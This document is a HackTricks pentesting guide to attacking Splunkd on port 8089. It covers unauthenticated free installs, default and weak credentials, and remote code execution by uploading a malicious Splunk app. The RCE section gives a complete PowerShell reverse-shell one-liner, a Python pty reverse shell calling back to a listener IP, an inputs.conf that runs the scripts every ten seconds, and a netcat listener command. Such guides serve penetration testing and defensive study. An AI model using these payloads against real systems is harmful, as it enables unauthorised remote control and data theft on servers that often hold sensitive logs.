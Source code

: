 # 8089 - Pentesting Splunkd

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **Basic Information**

Splunk is a **log analytics tool** that plays a crucial role in **gathering, analyzing, and visualizing data**. While its initial purpose was not to serve as a **SIEM (Security Information and Event Management)** tool, it has gained popularity in the realm of **security monitoring** and **business analytics**.

Splunk deployments are frequently utilized to store **sensitive data** and can serve as a **valuable source of information** for potential attackers if they manage to compromise the system. **Default port:** 8089

```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```

{% hint style="info" %}
The **Splunk web server runs by default on port 8000**.
{% endhint %}

## Enumeration

### Free Version

The Splunk Enterprise trial converts to a **free version after 60 days**, which **doesn’t require authentication**. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is **subsequently forgotten about**. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

### Default Credentials

On older versions of Splunk, the default credentials are **`admin:changeme`**, which are conveniently displayed on the login page.\
However, **the latest version of Splunk** sets **credentials** **during the installation process**. If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Obtain Information

Once logged in to Splunk, we can **browse data,** run **reports**, create **dashboards**, **install applications** from the Splunkbase library, and install custom applications.\
You can also run code: Splunk has multiple ways of **running code**, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts. A common method of gaining remote code execution on a Splunk server is through the use of a scripted input.

Moreover, as Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts.

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

A custom application can run **Python, Batch, Bash, or PowerShell scripts**.\
Note that **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The **`bin`** directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure:

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

The **`bin`** directory will contain any **scripts that we intend to run** (in this case, a **PowerShell** reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a **PowerShell one-liner:**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk **which script to run** and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the `.bat` file, which will run when the application is deployed and execute the PowerShell one-liner.

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. As **soon as we upload the application**, a **reverse shell is received** as the status of the application will automatically be switched to `Enabled`.

#### Linux

If we were dealing with a **Linux host**, we would need to **edit the `rev.py` Python script** before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
